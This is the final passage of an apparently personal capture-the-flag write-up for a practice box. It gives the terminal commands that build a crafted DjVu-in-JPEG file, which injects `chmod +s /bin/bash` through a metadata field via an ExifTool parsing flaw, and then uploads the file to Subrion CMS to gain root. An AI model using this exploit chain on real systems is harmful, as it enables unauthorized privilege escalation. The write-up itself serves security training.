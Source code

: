 ```
Follow the steps above

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/PG/pg_practice/Exfiltrated]
└─$ wget -qO sample.jpg placekitten.com/200
                                                                                                                                                                        
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/PG/pg_practice/Exfiltrated]
└─$ file sample.jpg 
sample.jpg: JPEG image data, JFIF standard 1.01, resolution (DPI), density 96x96, segment length 16, comment: "CREATOR: gd-jpeg v1.0 (using IJG JPEG v80), quality = 65", baseline, precision 8, 200x200, components 3
                                                                                                                                                                        
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/PG/pg_practice/Exfiltrated]
└─$ printf 'P1 1 1 1' > input.pbm
                                                                                                                                                                        
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/PG/pg_practice/Exfiltrated]
└─$ cjb2 input.pbm mask.djvu
                                                                                                                                                                        
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/PG/pg_practice/Exfiltrated]
└─$ djvumake exploit.djvu Sjbz=mask.djvu
                                                                                                                                                                        
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/PG/pg_practice/Exfiltrated]
└─$ echo -e '(metadata (copyright "\\\n" . `chmod +s /bin/bash` #"))' > input.txt
                                                                                                                                                                        
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/PG/pg_practice/Exfiltrated]
└─$ djvumake exploit.djvu Sjbz=mask.djvu ANTa=input.txt
                                                                                                                                                                        
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/PG/pg_practice/Exfiltrated]
└─$ exiftool '-GeoTiffAsciiParams<=exploit.djvu' sample.jpg
    1 image files updated
                                                                                                                                                                        
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/PG/pg_practice/Exfiltrated]
└─$ perl -0777 -pe 's/\x87\xb1/\xc5\x1b/g' < sample.jpg > exploit.jpg
                                                                                                                                                                        
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/PG/pg_practice/Exfiltrated]
└─$ ls -la
total 52
drwxr-xr-x  2 bl4ck4non bl4ck4non 4096 Mar  4 02:28 .
drwxr-xr-x 17 bl4ck4non bl4ck4non 4096 Mar  4 00:00 ..
-rw-r--r--  1 bl4ck4non bl4ck4non  108 Mar  4 02:28 exploit.djvu
-rw-r--r--  1 bl4ck4non bl4ck4non 6854 Mar  4 02:28 exploit.jpg
-rw-r--r--  1 bl4ck4non bl4ck4non    8 Mar  4 02:27 input.pbm
-rw-r--r--  1 bl4ck4non bl4ck4non   54 Mar  4 02:28 input.txt
-rw-r--r--  1 bl4ck4non bl4ck4non   46 Mar  4 02:28 mask.djvu
-rw-r--r--  1 bl4ck4non bl4ck4non 6854 Mar  4 02:28 sample.jpg
-rw-r--r--  1 bl4ck4non bl4ck4non 6646 Mar  2 17:04 sample.jpg_original
-rw-r--r--  1 bl4ck4non bl4ck4non   31 Mar  4 01:25 shell.phar

```
We upload the ```exploit.jpg``` to the Subrion CMS again, then after lets say 15 seconds our ```/bin/bash``` should have a SUID bit

![image](https://user-images.githubusercontent.com/67879936/222869178-24849002-c742-420d-955b-5e530e717ae3.png)

Going back to our terminal

![image](https://user-images.githubusercontent.com/67879936/222869810-b44d4f60-19d6-4e71-af22-0867ec7b0f18.png)

We became the root user and can view the files meant for the root user.

That will be all for today
<br> <br>
[Back To Home](../../index.md)



```